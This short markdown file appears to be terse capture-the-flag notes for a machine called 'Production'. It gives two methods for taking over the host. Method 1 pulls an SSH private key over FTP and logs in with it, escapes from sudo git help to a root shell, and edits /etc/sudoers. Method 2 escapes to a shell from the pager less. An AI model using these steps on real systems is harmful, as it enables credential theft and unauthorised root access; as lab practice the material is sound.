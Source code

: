 # Production
## Method 1
1. `ftp $IP`
2. `get id_rsa` and get `get authorized_keys`
3. `chmod 600 id_rsa`
4. `ssh -l ashu -i id_rsa $IP`
5. `sudo /bin/su skidy`
6. `sudo git help config` and `!/bin/sh`
7. `nano /etc/sudoers` edit
## Method 2
1. `less /etc/profile`
2. `!/bin/sh` or  `v:shell`


